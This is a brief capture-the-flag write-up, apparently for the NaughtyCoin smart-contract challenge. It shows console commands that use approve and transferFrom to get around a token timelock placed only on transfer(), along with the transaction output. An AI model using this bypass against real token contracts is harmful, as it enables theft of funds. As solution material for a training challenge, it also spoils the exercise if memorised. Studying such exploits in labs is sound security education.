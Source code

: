 # NaughtyCoin

Naughtycoin just locks the transfer() function
ERC20 implements transferFrom as well, so we can just approve to pass the spendAllowance checks, and use transferFrom to bypass the overridden transfer().

Solvable entirely within the console.


```js
await contract.approve(player, (await contract.INITIAL_SUPPLY()).toString());
{tx: '0x3322aafb1b660e1d1229fd593cceacfcfafed20bf0817ca0db77c9034d7cde2a', receipt: {…}, logs: Array(1)}
```

```js
await contract.transferFrom(player, contract.address, (await contract.INITIAL_SUPPLY()).toString());
{tx: '0x129ae1ff98088af9cdda64dce9118d4e63e75ab0b800c7c1b5b4e3bf2846e739', receipt: {…}, logs: Array(2)}
```

```js
(await contract.balanceOf(player)).toString();
'0'
```